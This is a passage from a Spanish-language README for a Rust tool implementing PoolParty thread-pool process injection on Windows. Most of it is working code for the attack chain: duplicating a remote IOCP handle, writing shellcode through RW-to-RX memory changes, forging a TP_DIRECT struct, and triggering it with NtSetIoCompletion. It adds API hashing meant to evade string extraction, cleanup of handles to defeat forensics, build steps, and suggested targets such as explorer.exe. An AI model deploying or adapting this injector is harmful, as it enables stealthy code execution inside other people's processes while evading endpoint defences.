let current_process_handle: HANDLE = -1isize as HANDLE; // Pseudo-handle para NtCurrentProcess()
let mut duplicated_handle: HANDLE = std::ptr::null_mut();

match nt_duplicate_object(
    remote_process_handle,
    handle_entry.HandleValue,
    current_process_handle,
    &mut duplicated_handle as PHANDLE,
    0,
    0,
    DUPLICATE_SAME_ACCESS,
) {
    Ok(_) => { /* Descriptor clonado exitosamente en duplicated_handle */ }
    Err(e) => return Err(format!("Fallo en nt_duplicate_object: {}", e)),
};
```

#### Parámetros y Convención de Llamada
- `SourceProcessHandle`: `remote_process_handle` (el proceso objetivo).
- `SourceHandle`: `handle_entry.HandleValue` (el descriptor IOCP remoto).
- `TargetProcessHandle`: `-1isize as HANDLE` (`GetCurrentProcess()`).
- `TargetHandle`: `&mut duplicated_handle` (recibe el nuevo descriptor local válido).
- `DesiredAccess`: `0` (ignorado al especificar `DUPLICATE_SAME_ACCESS`).
- `HandleAttributes`: `0`.
- `Options`: `DUPLICATE_SAME_ACCESS` (`0x00000002`).

El Administrador de Objetos del Kernel genera una nueva entrada en la tabla de descriptores del proceso inyector que apunta al mismo objeto `IoCompletion` subyacente, preservando intactos los derechos de inserción en la cola.

---

### 5. Preparación Sigilosa de Memoria: write_process_mem_rw_rx (Ciclo de Vida RW -> RX)

Asignar memoria directamente con protección `PAGE_EXECUTE_READWRITE` (RWX / `0x40`) genera una firma heurística instantánea para motores de detección de memoria y eventos de telemetría ETW-Ti (`KERNEL_THREATINT_TASK_ALLOCVM_REMOTE`).

Para eliminar firmas estáticas RWX, `write_process_mem_rw_rx` implementa un ciclo de vida en tres etapas:

```math
\begin{aligned}
\mathbf{Paso\,1:}\quad &\text{NtAllocateVirtualMemory} &&\xrightarrow{\text{Reserva}} \mathbf{PAGE\_READWRITE} \,(0x04) \quad &&\text{[Memoria no ejecutable]} \\
&\quad\Big\downarrow \\
\mathbf{Paso\,2:}\quad &\text{NtWriteVirtualMemory} &&\xrightarrow{\text{Escribe Payload}} \text{Búfer}[\&[u8]] \quad &&\text{[Verificado: } bytes = len\text{]} \\
&\quad\Big\downarrow \\
\mathbf{Paso\,3:}\quad &\text{NtProtectVirtualMemory} &&\xrightarrow{\text{Modifica Protección}} \mathbf{PAGE\_EXECUTE\_READ} \,(0x20) \quad &&\text{[Ejecución sin RWX]}
\end{aligned}
```

```rust
// Fase 1: Inyección del payload ejecutable
let _allocated_code_addr = match write_process_mem_rw_rx(remote_process_handle, shellcode) {
    Ok(addr) => addr,
    Err(e) => return Err(format!("[!] write_process_mem_rw_rx falló. Motivo: {}", e)),
};

// Fase 2: Inyección de la estructura de tarea TP_DIRECT
let mut io_complete_task: TP_DIRECT = unsafe { std::mem::zeroed() };
io_complete_task.callback = _allocated_code_addr as PVOID;

let _allocated_tpdirect_addr =
    match write_process_mem_rw_rx(remote_process_handle, io_complete_task.as_bytes()) {
        Ok(addr) => addr,
        Err(e) => return Err(format!("[!] write_process_mem_rw_rx con io_complete_task falló. Motivo: {}", e)),
    };
```

#### Esquema de Asignación Dual en Memoria Remota
El inyector invoca `write_process_mem_rw_rx` en dos ocasiones consecutivas:
1. En primer lugar, para alojar la rebanada de bytes de la carga útil (`shellcode: &[u8]`), obteniendo `_allocated_code_addr`.
2. En segundo lugar, para alojar los bytes serializados de la estructura `TP_DIRECT` (`io_complete_task.as_bytes()`), obteniendo `_allocated_tpdirect_addr`.

Ambas regiones experimentan la transición `PAGE_READWRITE` → `PAGE_EXECUTE_READ`, garantizando que en ningún momento existan páginas con permisos simultáneos de escritura y ejecución (RWX) en el proceso anfitrión.

---

### 6. La Estructura de Tarea Indocumentada TP_DIRECT y Distribución de Memoria

En el motor en modo usuario del Thread Pool de Windows, el despacho directo de tareas se gestiona mediante tres estructuras anidadas: `TP_TASK_CALLBACKS`, `TP_TASK` y `TP_DIRECT`.

#### Definiciones Estructurales (Arquitectura de 64 Bits)

```rust
#[repr(C)]
#[derive(Debug, Copy, Clone)]
pub struct TP_TASK_CALLBACKS {
    pub execute_callback: PVOID,
    pub unposted: PVOID,
}

#[repr(C)]
#[derive(Debug, Copy, Clone)]
pub struct TP_TASK {
    pub callbacks: *mut TP_TASK_CALLBACKS,
    pub numa_node: ULONG,
    pub ideal_processor: UINT8,
    pub _padding: [u8; 3],
    pub list_entry: LIST_ENTRY,
}

#[repr(C)]
pub struct TP_DIRECT {
    pub task: TP_TASK,
    pub lock: ULONGLONG,
    pub io_completion_information_list: LIST_ENTRY,
    pub callback: PVOID,
    pub numa_node: ULONG,
    pub ideal_processor: UCHAR,
    pub _padding: [u8; 3],
}
```

#### Mapa de Memoria y Formulación Estructural de 72 Bytes (Offsets 0x00 a 0x47)

```math
\begin{aligned}
\text{sizeof}(\text{TP\_DIRECT}) &= \underbrace{\text{sizeof}(\text{TP\_TASK})}_{\mathbf{32\text{ bytes (0x20)}}} + \underbrace{\text{Lock + ListEntry}}_{\mathbf{24\text{ bytes (0x18)}}} + \underbrace{\mathbf{Callback}}_{\mathbf{8\text{ bytes (0x08)}}} + \underbrace{\text{Afinidad y Relleno}}_{\mathbf{8\text{ bytes (0x08)}}} \\
&= 32 + 24 + 8 + 8 = \mathbf{72\text{ bytes (0x48)}} \implies \text{Offset}(\text{callback}) = \mathbf{+0x38}
\end{aligned}
```

| Desplazamiento | Tamaño | Nombre del Campo | Tipo | Descripción |
|:---|:---:|:---|:---|:---|
| `0x00..0x07` | 8 B | `task.callbacks` | `*mut CALLBACKS` | Puntero a tabla de despacho (NULL) |
| `0x08..0x0B` | 4 B | `task.numa_node` | `ULONG` (`u32`) | Afinidad a nodo NUMA (`0` = defecto) |
| `0x0C` | 1 B | `task.ideal_processor` | `UINT8` (`u8`) | Núcleo preferido (`0` = cualquiera) |
| `0x0D..0x0F` | 3 B | `task._padding` | `[u8; 3]` | Relleno explícito de estructura |
| `0x10..0x17` | 8 B | `task.list_entry.Flink` | `*mut LIST_ENTRY` | Flink de lista doble de tareas |
| `0x18..0x1F` | 8 B | `task.list_entry.Blink` | `*mut LIST_ENTRY` | Blink de lista doble de tareas |
| **`0x00..0x1F`** | **32 B** | **Estructura `TP_TASK`** | `TP_TASK` | **Cabecera de Tarea Incrustada (`0x20` bytes)** |
| `0x20..0x27` | 8 B | `lock` | `ULONGLONG` (`u64`) | Spinlock / contador de estado (`0`) |
| `0x28..0x2F` | 8 B | `io_completion_info_list.Flink` | `*mut LIST_ENTRY` | Flink de info de IOCP |
| `0x30..0x37` | 8 B | `io_completion_info_list.Blink` | `*mut LIST_ENTRY` | Blink de info de IOCP |
| **`0x38..0x3F`** | **8 B** | **`callback`** | **`PVOID`** | **PUNTERO DE EJECUCIÓN (Base Payload)** |
| `0x40..0x43` | 4 B | `numa_node` | `ULONG` (`u32`) | Preferencia de nodo NUMA (`0`) |
| `0x44` | 1 B | `ideal_processor` | `UCHAR` (`u8`) | Afinidad de núcleo (`0` = cualquiera) |
| `0x45..0x47` | 3 B | `_padding` | `[u8; 3]` | Relleno explícito de alineación |

#### Comparativa entre Arquitecturas (x86 vs x86_64)

| Métrica | Arquitectura de 32 bits (x86) | Arquitectura de 64 bits (x86_64) |
|:---|:---:|:---:|
| `sizeof(TP_TASK_CALLBACKS)` | 8 bytes (`0x08`) | 16 bytes (`0x10`) |
| `sizeof(TP_TASK)` | 20 bytes (`0x14`) | 32 bytes (`0x20`) |
| `sizeof(TP_DIRECT)` | 44 bytes (`0x2C`) | **72 bytes (`0x48`)** |
| Desplazamiento de `callback` | `+0x20` (32 bytes) | **`+0x38` (56 bytes)** |
| Alineación de Punteros | 4 bytes | 8 bytes |

#### Serialización Segura de Memoria
`TP_DIRECT` implementa el método `as_bytes()` para exponer una rebanada de bytes segura y sin copias destinada a la escritura en la memoria remota:

```rust
impl TP_DIRECT {
    pub fn as_bytes(&self) -> &[u8] {
        unsafe {
            std::slice::from_raw_parts(
                (self as *const Self).cast::<u8>(),
                std::mem::size_of::<Self>(),
            )
        }
    }
}
```

> [!NOTE]
> **Nota del Autor (`lcalzada-xor`):**  
> *En `set_io_completion.rs` se encuentran documentados textualmente mis comentarios originales:*
> ```rust
> // TP_DIRECT NO esta documentado, esto me ha dado muchos problemas
> pub struct TP_DIRECT { // esta struct se pasa a KeyCOntext, esta era mi ultima confusion, antes se lo pasaba a apccontext
>     pub numa_node: ULONG, // indica qué nodo NUMA físico debería despacharse preferentemente la tarea, la ram se divide en varios nodos numa, si pones 0 es el nodo por defecto
>     pub ideal_processor: UCHAR, // que nucleo ejecuta la tarea, 0 si te da igual
>     pub _padding: [u8; 3], // padding explicito para prevenir todos los errores que he tenido
> ```
> *Sin este arreglo explícito de alineación de 3 bytes (`_padding: [u8; 3]`), Rust alinea la estructura de manera discrepante respecto a lo que `ntdll` asume en x64. En consecuencia, el puntero al campo `callback` se desplazaba unos pocos bytes en la memoria, provocando que `ntdll!TppDirectExecuteCallback` desreferenciara una dirección de memoria errónea y corrompiera el proceso de destino. Rellenar con ceros la estructura íntegra y dejar la afinidad NUMA y de procesador en 0 garantiza que la tarea se despache de forma segura y uniforme a través de todas las compilaciones de Windows 10 y Windows 11.*

---

### 7. Despacho de la Tarea: NtSetIoCompletion y la Mecánica de KeyContext

La ejecución del payload se detona encolando un paquete de finalización en el descriptor clonado mediante `NtSetIoCompletion` (hash de API `0x6041e7aa`):

```rust
match nt_set_io_completion(
    duplicated_handle,
    _allocated_tpdirect_addr as PVOID, // KeyContext: Apunta a TP_DIRECT
    std::ptr::null_mut(),              // ApcContext: Debe ser NULL
    0,                                 // IoStatus: STATUS_SUCCESS (0)
    std::ptr::null_mut(),              // IoStatusInformation: NULL
) {
    Ok(_) => {
        #[cfg(debug_assertions)]
        println!("[+] Se ha añadido a la cola de iocp el codigo.");
    }
    Err(e) => return Err(format!("[!] nt_set_io_completion falló. Motivo: {}", e)),
}
```

#### Firma de la Llamada al Sistema y Mapeo de Parámetros

```c
NTSTATUS NTAPI NtSetIoCompletion(
    _In_     HANDLE    IoCompletionHandle,
    _In_opt_ PVOID     KeyContext,
    _In_opt_ PVOID     ApcContext,
    _In_     NTSTATUS  IoStatus,
    _In_opt_ ULONG_PTR IoStatusInformation
);
```

| Parámetro | Valor Suministrado | Rol en la Arquitectura del Thread Pool |
|:---|:---|:---|
| `IoCompletionHandle` | `duplicated_handle` | Descriptor clonado localmente que apunta al IOCP del worker factory remoto. |
| `KeyContext` | `_allocated_tpdirect_addr` | **Puntero Clave de Inyección:** Apunta a la estructura `TP_DIRECT` en el proceso destino. |
| `ApcContext` | `std::ptr::null_mut()` | Sin uso en tareas directas. Debe permanecer en `NULL` para no corromper la lógica de E/S. |
| `IoStatus` | `0` (`STATUS_SUCCESS`) | Indica estado de éxito en el paquete de finalización hacia el worker thread. |
| `IoStatusInformation` | `std::ptr::null_mut()` | Contador de bytes transferidos; sin uso en la ejecución de tareas. |

#### Descubrimiento de Arquitectura: `KeyContext` vs `ApcContext`
En el subsistema de E/S asíncrona convencional de Win32 (`CreateIoCompletionPort` / `GetQueuedCompletionStatus`), `KeyContext` contiene la clave de finalización del usuario, mientras que `ApcContext` aloja el puntero a la estructura `OVERLAPPED`.

Sin embargo, en el **subsistema de Worker Factories del Thread Pool de Windows**, la semántica diverge por completo:
- Los hilos de trabajo se encuentran en un bucle permanente dentro de `ntdll!TppWorkerThread`, llamando a `NtRemoveIoCompletion`.
- Al recibir un paquete, el despachador interno verifica si este corresponde a un evento de E/S ordinario o a una tarea directa.
- Para tareas directas, el motor asume formalmente que **`KeyContext`** es un puntero a una estructura `TP_DIRECT`.
- Si se suministra la dirección en `ApcContext`, el despachador interpreta `KeyContext` como nulo o inválido, descartando la tarea sin ejecutar el callback.

> [!NOTE]
> **Nota del Autor (`lcalzada-xor`):**  
> *Este constituyó el mayor desafío y rompecabezas técnico durante el desarrollo. Dediqué horas a depurar la razón por la cual `NtSetIoCompletion` devolvía `STATUS_SUCCESS` pero el payload jamás llegaba a ejecutarse. Me encontraba pasando la dirección remota a través de `ApcContext`, siguiendo las convenciones habituales de la E/S asíncrona estándar de Win32. En cuanto comprendí que el despachador nativo del Thread Pool de Windows exige recibir el puntero a la estructura `TP_DIRECT` en el parámetro `KeyContext`, la inyección funcionó a la perfección.*

---

### 8. Limpieza y Ciclo de Vida de Handles: NtClose

Inmediatamente después de encolar el paquete de finalización, el inyector libera todos los descriptores transitorios mediante `nt_close` (hash de API `0x1c0fcdc4`):

```rust
match nt_close(duplicated_handle) {
    Ok(_) => {
        #[cfg(debug_assertions)]
        println!("[+] Handle duplicado cerrado");
    }
    Err(e) => println!("[!] Handle duplicado ERROR al cerrar. Motivo: {}", e),
}

match nt_close(remote_process_handle) {
    Ok(_) => {
        #[cfg(debug_assertions)]
        println!("[+] Handle proceso remoto pid: {} cerrado", remote_process_pid);
    }
    Err(e) => println!("[!] Handle proceso remoto ERROR al cerrar. Motivo: {}", e),
}
```

#### Higiene Forense
Cerrar el descriptor duplicado del IOCP y el descriptor del proceso objetivo garantiza que no persistan referencias cruzadas en la tabla de handles del inyector. Si el inyector finaliza o continúa su ejecución, una inspección forense de sus descriptores no revelará ningún rastro de conexión persistente con el proceso anfitrión.

---

## El Banco de Pruebas de Integración (examples/example.rs)

El banco de pruebas ubicado en `examples/example.rs` demuestra el flujo interactivo completo de la técnica: desde la enumeración de procesos del sistema hasta la inyección y disparo del payload en el Thread Pool del proceso objetivo.

---

### Etapa 1: Adquisición del Objetivo y el Algoritmo unique_hash

Las líneas `31-38` de `examples/example.rs` inician el flujo imprimiendo el PID del proceso local (`self_pid`) y demostrando el cálculo de hashes de APIs en tiempo de compilación y ejecución mediante `unique_hash`.

#### Especificación Matemática de `unique_hash`
El algoritmo implementado en `zada-xor/src/techniques/evasion/api_hashing.rs` modifica el estándar FNV-1a de 32 bits incorporando una rotación circular a la derecha de 7 bits (ROR-7) y una máscara final XOR:

```math
\begin{aligned}
h_0 &= \mathbf{0x811C9DC5} \quad (\text{Base Offset FNV de 32 bits}) \\
h_{i}' &= (h_{i-1} \oplus \text{byte}_i) \times \mathbf{16777619} \quad (\text{Primo FNV: } 0x01000193) \\
h_i &= (h_{i}' \gg 7) \mid (h_{i}' \ll 25) \quad (\text{Operación ROR-7}) \\
\text{Hash Final} &= h_n \oplus \mathbf{0x7F3A9C12} \quad (\text{Máscara XOR})
\end{aligned}
```

```rust
pub fn unique_hash(name: &str) -> u32 {
    let mut hash: u32 = 0x811C9DC5;
    for byte in name.bytes() {
        hash ^= byte as u32;
        hash = hash.wrapping_mul(16777619);
        hash = (hash >> 7) | (hash << (32 - 7));
    }
    hash ^ 0x7F3A9C12
}
```

#### Vectores de Prueba y Verificación de Hashes

| Identificador de Cadena | Hash de 32 bits Resultante | Rol Arquitectónico en el Motor |
|:---|:---:|:---|
| `"NtSetIoCompletion"` | `0x6041e7aa` | Despacho de paquetes a la cola de IOCP. |
| `"NtQuerySystemInformation"`| `0xc3d78064` | Enumeración de procesos activos del sistema. |
| `"ntdll.dll"` (minúsculas) | `0x68861c6f` | Descriptor de módulo de la API nativa de NT. |
| `"kernel32.dll"` (minúsculas) | `0xd32210ae` | Descriptor de módulo del subsistema base de Win32. |
| `"RtlUserThreadStart"` | `0xec14be5f` | Ancla raíz para la falsificación de pila. |
| `"BaseThreadInitThunk"` | `0x9941b145` | Marco intermedio para la falsificación de pila. |
| `"NtClose"` | `0x1c0fcdc4` | Liberación de descriptores del kernel. |
| `"NtOpenProcess"` | `0xaddc1c2e` | Adquisición de descriptores de procesos. |
| `"NtQueryObject"` | `0xfc2a599c` | Introspección de tipos en el Object Manager. |
| `"NtQueryInformationProcess"`| `0x6fa0c1f4` | Consulta de la tabla de handles del proceso. |
| `"NtDuplicateObject"` | `0x8f9a8420` | Duplicación de handles entre procesos. |
| `"NtAllocateVirtualMemory"` | `0x2759addf` | Reserva y confirmación de memoria virtual. |
| `"NtWriteVirtualMemory"` | `0x7f603ee9` | Primitiva de escritura de memoria virtual. |
| `"NtProtectVirtualMemory"` | `0x96e11bf8` | Modificación de atributos de protección de páginas. |
| `"NtReadVirtualMemory"` | `0x7a58c6ca` | Primitiva de lectura de memoria virtual. |
| `"strcpy"` | `0x097c4468` | Rutina C de runtime exportada por NTDLL. |

> **Ventajas de OPSEC:**  
> La combinación del producto FNV-1a con una rotación no estándar de 7 bits impide el criptoanálisis de colisiones lineales e invalida las tablas arcoíris comerciales de FNV-1a. La máscara XOR final (`0x7F3A9C12`) garantiza que ninguna cadena en texto plano aparezca en las secciones de datos del binario compilado, evadiendo herramientas de extracción estática de cadenas (*strings*).

---

### Etapa 2: Descubrimiento de Procesos del Sistema vía NtQuerySystemInformation

Las líneas `39-50` de `examples/example.rs` enumeran los procesos activos en el sistema invocando `get_process_table()`, desplegando una tabla interactiva antes de solicitar el PID objetivo:

```rust
match get_process_table() {
    Ok(table) => println!("{}", table),
    Err(e) => println!("Error al ejecutar la syscall: {}", e),
};
println!("Por favor, selecciona un pid para continuar:");
```

#### Pipeline de Descubrimiento y Dimensionamiento Dinámico
Implementada en `zada-xor/src/techniques/discovery/process.rs`, la rutina consulta `NtQuerySystemInformation` (hash `0xc3d78064`) utilizando `SystemProcessInformation = 5`:

1. **Sondeo de Tamaño:** Consulta inicialmente con puntero nulo y longitud 0 para obtener el tamaño requerido tras recibir `STATUS_INFO_LENGTH_MISMATCH` (`0xC0000004`).
2. **Asignación con Holgura:** Asigna un búfer de `return_length + 0x2000` bytes. La holgura adicional de 8 KB (`0x2000`) previene desbordamientos si se crean nuevos procesos en el sistema entre el sondeo y la llamada efectiva.
3. **Recorrido de Registros Contiguos:** Itera los registros contiguos empleando `next_entry_offset`. La iteración culmina cuando `next_entry_offset == 0`.
4. **Formateo de Tabla Unicode:** Genera una salida estructurada con caracteres de caja Unicode detallando `PID`, `PPID`, `Session`, `Threads`, `Handles`, `Working Set` (formateado en B, KB, MB, GB) y el nombre del proceso (`Process Name`).

---

### Etapa 3: Apertura del Proceso y Ejecución de PoolParty

Las líneas `86-116` de `examples/example.rs` abren el descriptor del proceso seleccionado y ejecutan la inyección mediante `execute_poolparty_shellcode`:

```rust
let handle = match open_process(
    pid,
    DESIRED_ACCESS::PROCESS_VM_READ
        | DESIRED_ACCESS::PROCESS_VM_WRITE
        | DESIRED_ACCESS::PROCESS_QUERY_INFORMATION
        | DESIRED_ACCESS::PROCESS_VM_OPERATION
        | DESIRED_ACCESS::PROCESS_DUP_HANDLE,
) {
    Ok(handl) => {
        #[cfg(debug_assertions)]
        println!("[+] Handle al proceso con pid: {} obtenido exitosamente", pid);
        handl
    }
    Err(e) => {
        println!("[!] Error open_process: {}", e);
        return;
    }
};

match execute_poolparty_shellcode(pid, bytes_to_write) {
    Ok(_) => println!(
        "[+] Poolparty ejecutado exitosamente en el proc: {}, con el shellcode len {}",
        pid,
        bytes_to_write.len()
    ),
    Err(e) => println!("[!] Poolparty error: {}", e),
}
```

El payload se suministra como una rebanada abstracta de bytes (`bytes_to_write: &[u8]`), asegurando una separación total entre la lógica de control del inyector y el shellcode a ejecutar.

---

## Guía de Compilación Cruzada y Ejecución

`poolparty-oxide` está diseñado para compilarse de forma cruzada desde estaciones de desarrollo en Linux apuntando a entornos Windows de 64 bits (`x86_64-pc-windows-gnu`).

### 1. Requisitos Previos y Configuración de la Cadena de Herramientas

Asegúrese de contar con la cadena de herramientas de Rust, el compilador cruzado MinGW-w64 y el destino de Windows GNU instalados:

```bash
# Ubuntu / Debian
sudo apt-get update
sudo apt-get install -y build-essential gcc-mingw-w64-x86-64

# Fedora / RHEL
sudo dnf install -y mingw64-gcc

# Añadir el destino de compilación para Windows GNU
rustup target add x86_64-pc-windows-gnu
```

### 2. Comandos de Compilación

#### Compilación de la Biblioteca Núcleo (Perfil Release)
Para compilar la biblioteca optimizada y despojada de símbolos de depuración:

```bash
cargo build --release --target x86_64-pc-windows-gnu
```

#### Verificación Sintáctica del Ejemplo de Integración
Para verificar la sintaxis, tipos e invariantes del banco de pruebas sin generar artefactos binarios completos:

```bash
cargo check --example example --target x86_64-pc-windows-gnu
```

#### Compilación del Banco de Pruebas de Integración (Perfil Release)
Para construir el binario ejecutable independiente de pruebas:

```bash
cargo build --release --example example --target x86_64-pc-windows-gnu
```

El binario resultante se generará en:
```
target/x86_64-pc-windows-gnu/release/examples/example.exe
```

### 3. Ejecución y Pruebas en Laboratorio

Transfiera `example.exe` a una máquina virtual de pruebas con Windows 10/11 x64 o ejecútelo en Linux bajo Wine:

```bash
# Opcional: Ejecución bajo Wine en Linux
wine target/x86_64-pc-windows-gnu/release/examples/example.exe
```

#### Flujo de Ejecución del Banco de Pruebas
1. El binario muestra su propio PID y el hash calculado para `"NtSetIoCompletion"`.
2. Imprime la tabla de procesos activos generada mediante `NtQuerySystemInformation`.
3. Ingrese el PID de un proceso objetivo que aloje un Thread Pool estándar de Windows (p. ej., `explorer.exe`, `svchost.exe`, `RuntimeBroker.exe`).
4. El motor abre el proceso, clona su descriptor IOCP, escribe el payload y la estructura `TP_DIRECT`, y encola el paquete de finalización.
5. Se invoca `execute_poolparty_shellcode(pid, bytes_to_write)`, despachando el payload hacia un worker legítimo del Thread Pool del proceso remoto y notificando el resultado.

> [!NOTE]
> **Nota del Autor (`lcalzada-xor`):**  
> *Para suprimir las impresiones de depuración internas (`[+] Handle obtenido...`, `[+] Index de IoCompletion...`), se recomienda compilar utilizando el modificador `--release`. Todos los mensajes informativos en consola están encapsulados bajo la directiva condicional `#[cfg(debug_assertions)]`, por lo que son eliminados automáticamente en compilaciones optimizadas de producción.*

---

## Mapeo MITRE ATT&CK

| Táctica | Técnica | Subtécnica / ID | Descripción |
|:---|:---|:---:|:---|
| **Defense Evasion / Privilege Escalation** | Process Injection | [T1055](https://attack.mitre.org/techniques/T1055/) | Thread Pool-Based Process Injection (PoolParty vía `NtSetIoCompletion` y `TP_DIRECT`) |

---

## Proyectos Relacionados

Este repositorio forma parte de una serie de investigaciones sobre internals de Windows NT y desarrollo de sistemas en Rust:

- **[`zada-xor`](https://github.com/lcalzada-xor/zada-xor):** Biblioteca base en Rust para interacción directa con Windows NT (recorrido de PEB/TEB, parsing de PE en memoria, extracción dinámica de SSN con Hell's/Halo's Gate, syscalls indirectas y call stack spoofing).
- **[`poolparty-oxide`](https://github.com/lcalzada-xor/poolparty-oxide):** Implementación centrada en la inyección de procesos en el Thread Pool mediante puertos de finalización de E/S (IOCP).
- **[`Coff`](https://github.com/lcalzada-xor/Coff):** Implementación de Call Stack Spoofing para llamadas indirectas al sistema mediante gadgets duales en NTDLL sincronizados con `.pdata`.

---

## Recursos, Referencias y Enlaces de Interés

### 1. Investigación Original de PoolParty (SafeBreach Labs)
- **Artículo de Investigación Original:** [SafeBreach Blog: Process Injection Using Windows Thread Pools](https://www.safebreach.com/blog/process-injection-using-windows-thread-pools/) por Alon Leviev.
- **Repositorio Oficial de la Herramienta:** [SafeBreach-Labs/PoolParty en GitHub](https://github.com/SafeBreach-Labs/PoolParty) — PoC original en C/C++ con las 8 variantes de inyección.
- **Presentación en Black Hat Europe 2023:** [The Pool Party You Will Never Forget: New Process Injection Techniques Using Windows Thread Pools](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446).
- **Presentación en Black Hat Europe 2023 (PDF):** [The Pool Party You Will Never Forget Slides](https://i.blackhat.com/EU-23/Presentations/EU-23-Leviev-The-Pool-Party-You-Will-Never-Forget.pdf).

### 2. Documentación del Thread Pool e Internals de Windows
- **Microsoft Learn (Documentación Oficial):**
  - [Thread Pools](https://learn.microsoft.com/en-us/windows/win32/procthread/thread-pools) — Arquitectura y componentes del thread pool en Win32.
  - [Using the Thread Pool Functions](https://learn.microsoft.com/en-us/windows/win32/procthread/using-the-thread-pool-functions) — Ejemplos de uso de worker factories y temporizadores.
  - [I/O Completion Ports (IOCP)](https://learn.microsoft.com/en-us/windows/win32/fileio/i-o-completion-ports) — Especificación de puertos de finalización de E/S.
- **Ingeniería Inversa e Internals Indocumentados:**
  - [Geoff Chappell: NTDLL Thread Pool Functions](https://www.geoffchappell.com/studies/windows/win32/ntdll/history/) — Análisis detallado de las funciones internas `Tpp*` de `ntdll.dll`.
  - [System Informer (Process Hacker) - nttp.h](https://github.com/winsiderss/systeminformer/blob/master/phnt/include/nttp.h) — Definiciones en C de estructuras indocumentadas de thread pool (`TP_DIRECT`, `TP_TASK`, `TP_POOL`).
  - [Undocumented NT Functions: NtSetIoCompletion](https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FFile%2FNtSetIoCompletion.html) — Prototipo y parámetros a nivel de kernel para `NtSetIoCompletion`.
  - *Windows Internals (7th Edition, Part 1 & 2)* — Pavel Yosifovich, Mark Russinovich, David Solomon y Alex Ionescu.

### 3. Técnicas de Evasión, Syscalls y Spoofing de Pila
- **Hell's Gate:** [am0nsec/HellsGate](https://github.com/am0nsec/HellsGate) — Extracción dinámica de SSNs escaneando el prólogo de funciones de `ntdll.dll`.
- **Halo's Gate:** [SEKTOR7 HalosGate](https://blog.sektor7.net/#!res/2021/halosgate.md) — Detección de hooks de EDR y cálculo matemático de SSNs vecinos.
- **SilentMoonwalk:** [klezVirus/SilentMoonwalk](https://github.com/klezVirus/SilentMoonwalk) — Suplantación de la pila de llamadas (*Call Stack Spoofing*) en Windows x64.
